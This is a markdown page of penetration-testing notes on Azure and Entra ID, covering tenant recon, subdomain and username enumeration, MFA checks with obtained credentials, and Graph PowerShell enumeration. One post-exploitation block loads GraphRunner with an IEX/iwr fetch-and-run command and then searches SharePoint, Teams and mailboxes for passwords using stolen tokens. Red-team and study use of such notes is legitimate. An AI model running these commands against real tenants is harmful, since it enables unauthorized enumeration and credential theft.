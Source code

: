 ```yaml
---
title: Azure Notes 
weight: 40
menu:
  notes:
    name: Azure Notes
    identifier: notes-cloud-azure-info
    parent: notes-cloud-azure
    weight: 20
---
```



{{< note title="Recon and Enumeration">}}

Get basic information about the domain
```
https://login.microsoftonline.com/getuserrealm.srf?login=example.com&xml=1
```


AAD Internals
```
Get-AADIntLoginInformation -Domain <example.com>
Get-AADIntTenantID -Domain <example.com>
Invoke-AADIntReconAsOutsider -DomainName <example.com>
https://aadinternals.com/osint/
```

Azure Subdomain Enumeration
```
Github https://github.com/yuyudhn/AzSubEnum
python3 azsubenum.py -b domain -p permutations.txt -v
```

Username Enumeration
```
Github: https://github.com/0xZDH/Omnispray
python3 omnispray.py -m o365_enum_office -d example.com -uf ~/Documents/userList.txt
```

Checking Azure MFA (Assuming Credentials are obtained)
```
Github: https://github.com/dafthack/MFASweep
Invoke-MFASweep -Username <Username> -Password <password> -Recon -IncludeADFS

```
{{< /note >}}


{{< note title="Post Exploitation">}}

GraphRunner to enumerate Office Products 
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'
Invoke-SearchTeams -Tokens $tokens -SearchTerm password
Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 50
```
{{< /note >}}


{{< note title="Az and Graph Powershell Modules">}}

Setup Az and Graph Powershell Modules 
```
Install-Module Az
Import-Module Az
Connect-AzAccount

Install-Module Microsoft.Graph
Import-Module Microsoft.Graph
Connect-MgGraph
```
Microsoft Graph Powershell Enumeration
```
#Get user Info
Get-MgUser -UserId <email> | fl
#Get AU Info
Get-MgDirectoryAdministrativeUnit | fl

#Get Roles associated with an AU
#Automation Script: https://github.com/BenTamam/PentestPlayground/blob/main/Azure/Scripts/CheckScopedRolePrivileges.ps1
$ScopedRoleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId <AU-ID>
Get-MgDirectoryRole -DirectoryRoleId <RoleID> | fl

#Find Users who are members of the Role
foreach ($member in $ScopedRoleMembers) {
    $userId = $member.RoleMemberInfo.Id
    
    if (-not $userId) {
        Write-Output "No user ID available for member with Role ID: $($member.RoleId)"
        continue
    }

    $userDetails = Get-MgUser -UserId $userId
    
    if ($userDetails) {
        Write-Output "User Details: Name - $($userDetails.DisplayName), Email - $($userDetails.Mail), Role ID - $($member.RoleId)"
    } else {
        Write-Output "Failed to retrieve details for user ID: $userId"
    }
}

#Checking Members of the AU
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId <AU-ID>
```


{{< /note >}}

